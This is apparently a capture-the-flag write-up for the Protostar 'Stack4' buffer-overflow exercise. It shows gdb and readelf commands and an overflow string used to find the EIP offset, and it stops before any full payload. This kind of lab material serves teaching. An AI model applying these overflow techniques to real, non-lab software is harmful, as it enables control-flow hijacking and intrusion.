 **Stack4**

Almost the same exact code from the last level.
Only here we need the find the eip offset and change it ourselves.
I know we have stuff like cyclic, and cyclic_find, but finding the offset is a lot more fun :)
```diff
$ readelf -s stack4 | grep win
$ gdb stack4
(gdb) r
Starting program: /opt/protostar/bin/stack4 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAABBBBCCCCDDDDEEEEFFFFGGGG

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```